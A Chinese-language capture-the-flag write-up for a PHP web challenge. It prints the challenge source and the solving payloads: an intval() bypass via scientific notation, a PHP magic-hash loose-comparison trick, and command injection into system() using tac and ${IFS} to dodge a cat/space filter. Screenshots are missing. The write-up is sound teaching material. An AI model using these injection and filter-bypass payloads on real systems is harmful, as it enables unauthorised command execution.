







进入题目，发现有乱码问题



解决后发现这串字符的中文是“人间极乐bot”

（一开始以为是.git泄露扫了半天啥也不是555）

bot想到了robots.txt所以进行了尝试



根据提示继续访问，可却得到的是flag{this_is_not_flag}



回想刚才的robots.txt页面显示是一个header果断（大佬提示）bp抓包观察



果然有所收获访问一下看看



又有乱码问题不过不重要，关键的代码没乱就行，大体可以看出有三关，接下来进入主菜我们一步一步分析

## level 1

```php
//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
} 
```

payload：?num=11e3

第一关的考点是强制类型转换的利用（个人认为）

**intval()** 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值

​           在这里存在一个问题即利用科学记数法时如果没有计算则进行强制类型转换否则先计算在提取；

eg：intval(11e3)输出==》11 

​		intval(11e3+1)输出==》11001

这样就能绕过intval($num) < 2020 && intval($num + 1) > 2021


## level 2

```php
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
} 
```

payload：md5=0e215962017

第二部分考md5目的是加密前后的值“==”相等

一开始以为是数组绕过尝试后发现不行，所以使用经过查找发现md5值为0e215962017时加密前后值相等（都是0）


## level 3

``` php
//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
} 
```

payload: get_flag=tac${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag

最后一步命令执行；但是不能使用cat和空格，

当然能查看的命令有很多eg：tac，more，less，nl，vi，vim等这里就不一一列举

空格可以用${IFS}绕过

先利用ls指令查出flag所在的位置



之后便可查到flag了



